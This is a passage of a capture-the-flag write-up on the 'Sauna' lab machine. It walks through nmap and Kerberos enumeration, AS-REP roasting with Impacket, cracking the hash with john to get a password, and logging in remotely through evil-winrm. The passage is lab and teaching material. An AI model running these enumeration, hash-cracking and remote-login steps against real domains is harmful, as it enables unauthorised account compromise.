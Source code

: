 ```nmap -n -sV -vv --open -Pn -p- -A --reason -oN nmap.txt sauna.htb```
```nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='EGOTISTICAL-BANK.local' sauna.htb```

![img](./img/6.png)

Using the ```ldapsearch -x -h sauna.htb -b "DC=EGOTISTICAL-BANK,DC=local", a user "Hugo Smith" account was found```

![img](./img/7.png)

![img](./img/8.png)

***
### 3. Get Low Privilege Access:

According to the domain account found above, the login id would be a combination of the user name found at the "Meet The Team" page.

The possible combination of the user name list was created below and saved at the users.txt

```
fergussmith,fsmith,ferguss
shauncoins,scooin, shaunc
hugobear,hbear, hugob
bowietaylor,btaylor, bowiet
sophiedriver,sdriver, sophied
stevenkerb,skerb,stevenk
```

I was thinking that would it be an [ASREPRoasting attack](https://calvin-lai.gitbook.io/calvin-lai-security/tools/04-windows-enum-and-exploit/09-kerberos-attack#asreproast). Using Impacket's [GetNPUser](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) to extract a hash from my prepared user accounts list that did not require pre-authentication. 

```
/usr/share/doc/python3-impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -no-pass -outputfile getNPUsers.result -dc-ip sauna.htb
```

![img](./img/9.png)

It returned a hash for the user **fsmith** Selected the krb5asrep as the format of hash mode for the ASREPRosating,  

```john fsmith.tgt -format:krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt```

![img](./img/10.png)

The password of this user account **"fsmith"** was **"Thestrokes23"**

Using the obtained credentials fsmith/Thestrokes23 to access the system

SMB Map
```smbmap -u fsmith -p Thestrokes23 -H sauna.htb -R```

![img](./img/11.png)

Windows Remote Management (WinRM) 

It is a Windows built-in remote management protocol that was enabled by default. Using the [evil-winrm](https://github.com/Hackplayers/evil-winrm) to connect to the system

```evil-winrm.rb -u fsmith -p Thestrokes23 -i sauna.htb```

![img](./img/12.png)
```